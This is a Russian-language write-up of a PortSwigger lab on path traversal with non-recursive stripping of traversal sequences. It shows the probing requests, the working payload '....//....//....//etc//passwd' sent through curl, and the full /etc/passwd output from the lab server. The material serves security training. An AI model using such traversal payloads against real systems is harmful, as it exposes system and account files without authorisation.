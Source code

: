 ```yaml
---
title: "File path traversal, traversal sequences stripped non-recursively"
date: 2025-07-03
tags: [web, writeup]  
categories: [PortSwigger]
tagline: ""
header:
  overlay_image: /assets/images/ps_logo.webp
  overlay_filter: 0.5 
  overlay_color: "#fff"
  actions:
    - label: "Lab PortSwigger"
      url: "https://portswigger.net/web-security/learning-paths/path-traversal/common-obstacles-to-exploiting-path-traversal-vulnerabilities/file-path-traversal/lab-sequences-stripped-non-recursively"
classes: wide
---
```


Эта лабораторная работа содержит уязвимость **Path Traversal** при отображении изображений продуктов.

Приложение удаляет ключевые символы и слова пути из имени файла, предоставленного пользователем перед его использованием.

Для решения лабораторной работы нужно извлечь содержимое файла `/etc/passwd`.

```
https://0ac600ac032ee166817ef225006e0015.web-security-academy.net/
```

## Solution

Из задания мне известно, что уязвимость содержится в пути к картинке. 

![IMG](/assets/images/PortSwigger/IMG_path_traversal/IMG_traversal_sequences_stripped_non-recursively/1.png){: height="200" .align-center}

Сразу перейду к тестированию разных путей к файлу:

```
https://0ac600ac032ee166817ef225006e0015.web-security-academy.net/image?filename=/etc/passwd - "No such file"
```

Ожидаемо, что мы не получили ответ так просто) Предположим, что удаляется символ `/`. Попробую проверить это:

```
https://0ac600ac032ee166817ef225006e0015.web-security-academy.net/image?filename=8.jpg - ОК
https://0ac600ac032ee166817ef225006e0015.web-security-academy.net/image?filename=./8.jpg - ОК
https://0ac600ac032ee166817ef225006e0015.web-security-academy.net/image?filename=./8.jpg - ОК
https://0ac600ac032ee166817ef225006e0015.web-security-academy.net/image?filename=../8.jpg - ОК
https://0ac600ac032ee166817ef225006e0015.web-security-academy.net/image?filename=..../8.jpg - No such file
```

По всей видимости две точки вырезаются или заменяются на символ одной точки. Предполагаю, что это будет для всех не буквенных символов. Попробую получить `/etc/passwd`:

```
https://0ac600ac032ee166817ef225006e0015.web-security-academy.net/image?filename=....//etc//passwd - No such file
https://0ac600ac032ee166817ef225006e0015.web-security-academy.net/image?filename=....//....//etc//passwd - No such file
https://0ac600ac032ee166817ef225006e0015.web-security-academy.net/image?filename=....//....//....//etc//passwd - ОК
```

Скачаю файл через `curl`:

```bash
cu63:~/ $ curl https://0ac600ac032ee166817ef225006e0015.web-security-academy.net/image\?filename\=....//....//....//etc//passwd                                                                                
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
peter:x:12001:12001::/home/peter:/bin/bash
carlos:x:12002:12002::/home/carlos:/bin/bash
user:x:12000:12000::/home/user:/bin/bash
elmer:x:12099:12099::/home/elmer:/bin/bash
academy:x:10000:10000::/academy:/bin/bash
messagebus:x:101:101::/nonexistent:/usr/sbin/nologin
dnsmasq:x:102:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
systemd-timesync:x:103:103:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
systemd-network:x:104:105:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:105:106:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
mysql:x:106:107:MySQL Server,,,:/nonexistent:/bin/false
postgres:x:107:110:PostgreSQL administrator,,,:/var/lib/postgresql:/bin/bash
usbmux:x:108:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
rtkit:x:109:115:RealtimeKit,,,:/proc:/usr/sbin/nologin
mongodb:x:110:117::/var/lib/mongodb:/usr/sbin/nologin
avahi:x:111:118:Avahi mDNS daemon,,,:/var/run/avahi-daemon:/usr/sbin/nologin
cups-pk-helper:x:112:119:user for cups-pk-helper service,,,:/home/cups-pk-helper:/usr/sbin/nologin
geoclue:x:113:120::/var/lib/geoclue:/usr/sbin/nologin
saned:x:114:122::/var/lib/saned:/usr/sbin/nologin
colord:x:115:123:colord colour management daemon,,,:/var/lib/colord:/usr/sbin/nologin
pulse:x:116:124:PulseAudio daemon,,,:/var/run/pulse:/usr/sbin/nologin
gdm:x:117:126:Gnome Display Manager:/var/lib/gdm3:/bin/false
```

Лаба решена.